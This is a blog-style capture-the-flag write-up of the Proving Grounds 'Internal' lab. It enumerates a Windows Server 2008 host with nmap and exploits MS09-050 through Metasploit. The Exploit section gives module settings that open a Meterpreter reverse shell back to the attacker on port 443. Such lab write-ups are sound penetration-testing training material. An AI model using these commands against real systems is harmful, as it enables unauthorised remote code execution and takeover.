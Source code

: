 ```yaml
---
title: "[Easy] - Proving Grounds - Internal"
date: 2024-10-22T00:00:00+00:00
author: Mathijs Verschuuren
layout: post
permalink: /pg-internal/
categories: Labs
tags: [writeup]
---
```

Welcome to another Proving Grounds lab! In this session, we'll walk through the process of exploiting a Windows 2008 server. We'll leverage a variety of techniques, including vulnerability enumeration and Metasploit modules, to gain access to the machine.

## Discovery

We start off with a nmap scan and scan all open tcp ports using the '-p-' argument. The following output appears after waiting for the scan to complete.

```bash
sudo nmap -p- -vv -Pn -A -T4 -sV 192.168.239.40 -oA ./fulltcp
```

The scan completes and reveals that the target is a Windows 2008 Server. Notably, port 445 is open, which often indicates SMB (Server Message Block), and port 3389, typically used for Remote Desktop Protocol (RDP), is also open.

```bash
PORT      STATE SERVICE            REASON          VERSION
53/tcp    open  domain             syn-ack ttl 125 Microsoft DNS 6.0.6001 (17714650) (Windows Server 2008 SP1)
135/tcp   open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 125 Microsoft Windows Server 2008 R2 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 125
5357/tcp  open  http               syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49156/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49157/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49158/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
Service Info: Host: INTERNAL; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008::sp1, cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2
```

Upon further investigation, we find that Network Level Authentication (NLA) is not enforced on the RDP service, allowing us to probe the RDP login screen. This lack of NLA provides us with crucial information: usernames and operating system details are leaked on the login screen.

![image](https://github.com/user-attachments/assets/78dd432e-327c-4c2c-a487-bb3a20fcb25d)

Given the presence of port 445/tcp, we check if the server is vulnerable to the notorious MS17_010 (also known as EternalBlue), a vulnerability that can lead to remote code execution and was used in the infamous WannaCry ransomware attack. We perform a quick vulnerability scan for MS17_010.

The scan confirms that the machine appears vulnerable, 

![image](https://github.com/user-attachments/assets/8feea7b6-bb05-478a-8760-fa538f793d1b)

but when attempting to exploit it, we run into a STATUS_ACCESS_DENIED error. This indicates that the named pipes necessary to carry out the attack are inaccessible.

This step is crucial, as certain attacks, including EternalBlue, rely on accessing specific named pipes like srvsvc or spoolss. Unfortunately, none of the named pipes that we require are accessible, preventing us from exploiting MS17_010.

![image](https://github.com/user-attachments/assets/b7e161fa-ad57-47a3-b7db-6d308a166408)

### Another approach

After scanning all the services running on the target machine, we decided to use Nmap's --script vuln feature to check for any known vulnerabilities. In hindsight, it became clear that we might have dived too deep too quickly. Initially, we focused on specific attack vectors without fully exploring the overall landscape. Had we taken more time to enumerate and analyze the exposed services in detail from the beginning, we could have identified this vulnerability much earlier.

Thorough enumeration is often overlooked in favor of quicker exploitation attempts, but it’s a crucial step in any engagement. By taking the time to fully understand the environment, we can avoid missing out on valuable attack surfaces. In this case, had we conducted broader scans earlier, we would have spotted the SMB-related MS09-050 vulnerability right away, allowing us to streamline our approach and avoid unnecessary detours.

This serves as a reminder that, while diving deep into a particular service can sometimes yield results, a more methodical and patient approach to enumeration can save time and provide clearer insight into the full range of attack opportunities.
The output indicated that the target was vulnerable to MS09-050:

![image](https://github.com/user-attachments/assets/193b9898-c39c-477f-9e12-c6e668218640)

MS09-050 refers to a critical vulnerability in the Server Message Block Version 2 (SMBv2) protocol, specifically within the srv2.sys driver on affected Windows operating systems. This vulnerability, also known as CVE-2009-3103, was disclosed in September 2009 and affects Windows Vista, Windows Server 2008, and Windows 7 (pre-release versions). The flaw allows an attacker to craft a specially formed SMB packet and send it to a vulnerable system, which could lead to remote code execution due to a buffer overflow in the handling of the SMBv2 protocol.

This exploit became infamous not only for its severity but also because of its wormable nature. A wormable exploit can automatically propagate between systems without user interaction, making it particularly dangerous in unpatched environments, much like the later EternalBlue exploit that fueled the WannaCry ransomware outbreak in 2017. Wormable vulnerabilities like MS09-050 pose a significant risk to networks, as they can trigger widespread infections by hopping from one vulnerable machine to another, often within minutes.

While not as publicly destructive as EternalBlue, the MS09-050 exploit attracted significant attention in the security community because of the simplicity of the attack and the high privileges an attacker could gain. In an unpatched system, this vulnerability could allow an attacker to gain full control over a machine, potentially leading to the installation of malware, data exfiltration, or lateral movement within the target network.

Microsoft patched the vulnerability in a security update released in 2009, but the exploit remains a stark reminder of the importance of keeping systems up to date, especially in critical network services like SMB. Even now, older or misconfigured systems may still be susceptible, making it a prime target for legacy system attacks.
By reviewing our options, we determined that there is a readily available Metasploit module to exploit MS09-050. The exploit works by sending specially crafted SMB packets to the target system, which can trigger a buffer overflow in the srv2.sys driver, leading to remote code execution.

## Exploit

Here is how we proceeded with the exploitation:

First, we fired up Metasploit and used the following commands to load the appropriate module:

```bash
msfconsole -q
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
```

Next, we set our target details, including the IP address of the Windows Server 2008 machine:

```bash
set RHOST 192.168.239.40
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 443
```

With the settings configured, we initiated the exploit:

![image](https://github.com/user-attachments/assets/a97e0ec0-2eb6-4960-b234-e89d12adbd8c)

The exploit successfully delivered the payload and granted us a Meterpreter shell on the target system.

## Credits

Thank you for following along with this write-up! My aim is to document these processes for future reference while providing insights that can help others in their penetration testing journeys. By sharing the thought process and techniques used in real-world scenarios, I hope to make the concepts more accessible to beginners and intermediate learners alike.
